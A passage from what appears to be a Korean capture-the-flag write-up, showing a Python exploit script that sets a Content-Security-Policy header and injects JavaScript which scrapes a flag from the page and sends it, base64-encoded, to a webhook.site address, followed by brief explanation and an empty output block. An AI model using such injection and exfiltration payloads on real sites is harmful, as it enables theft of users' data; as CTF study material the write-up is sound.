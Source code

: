 ```python
res2 = requests.post("http://58.229.185.61:8000/submit.php", headers={
    "Content-Type": "application/x-www-form-urlencoded"
}, cookies={
    "PHPSESSID": "29c7ee02fbc11aeba1831e18e4a84581"
}, data={
    "header": "Content-Security-Policy: script-src 'sha256-S9T+4pxwdCdgDuhSdqdsTSI3li/BHqci69Oa+iw6p7k=';",
    "script": """
    const regex = /eval\(([^)]+)\)/g; let st = ''; while ((matches = regex.exec(document.getElementById("flag_container").innerHTML)) !== null) {st+=matches[1];}location.href="https://webhook.site/b1d8c7e2-0203-453e-b7c6-8d36d365655c?flag="+btoa(st);
    """,
    "pow": leakCheck
})
print(res2.text)
```

위 Exploit 코드를 실행하게 되면 check_pow를 찾고 header를 재설정 한후 script를 실행시키게 됩니다.

webhook으로는 아래와 같이 응답이 오게 됩니다.

![Alt text](https://blog.kakaocdn.net/dn/Rzp2p/btsv7srXkge/3DdHwXax8doVUfwt7Ln3q1/img.png)

base64 인코딩이 되어있음으로 이를 디코딩 하면 아래와 같은 결과가 나타나게됩니다.

```
```